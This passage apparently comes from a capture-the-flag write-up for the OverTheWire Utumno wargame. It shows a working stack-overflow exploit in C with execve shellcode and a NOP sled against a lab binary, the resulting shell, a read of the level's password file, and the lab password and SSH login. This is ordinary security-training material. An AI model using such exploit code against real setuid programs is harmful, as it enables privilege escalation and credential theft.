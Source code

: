 ```nasm
0xffffdfbc:	0xb0e1f7c9	0x2f68510b	0x6868732f	0x6e69622f
0xffffdfcc:	0x80cde389	0x41414100	0x42424241	0x43434342
0xffffdfdc:	0x44444443	0x45454544	0x00010045	0x7574752f
0xffffdfec:	0x2f6f6e6d	0x6d757475	0x00356f6e	0x00000000
0xffffdffc:	0x00000000	Cannot access memory at address 0xffffe000
(gdb)
(gdb)
```

Here we could use `0xffffdf8c` as the return address.

```c
#include <unistd.h>

void main() {
    char *envp[] = {"", "", "", "", "", "", "", "", "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80", "AAAABBBBCCCCDDDD\x8c\xdf\xff\xff"};
    execve("/utumno/utumno5", NULL, envp);
}
```

Now, we can compile our code and get the shell !

```nasm
utumno5@utumno:/tmp/ax$ gcc -m32 code.c -o code
utumno5@utumno:/tmp/ax$ ./code
Here we go - AAAABBBBCCCCDDDD����
$ whoami
utumno6
$ cat /etc/utumno_pass/utumno6
eiluquieth
```

Done !

## Utumno 06 Solution

**SSH :** *ssh utumno6@utumno.labs.overthewire.org -p 2227*<br/>
**Pass :** *eiluquieth*

Ok, first we'll check if this executable needs some args.

```bash
utumno6@utumno:/utumno$ ./utumno6
Missing args
utumno6@utumno:/utumno$ ./utumno6 1
Missing args
utumno6@utumno:/utumno$ ./utumno6 1 2
Segmentation fault
utumno6@utumno:/utumno$ ./utumno6 1 2 3
Table position 1 has value 2
Description: 3
```
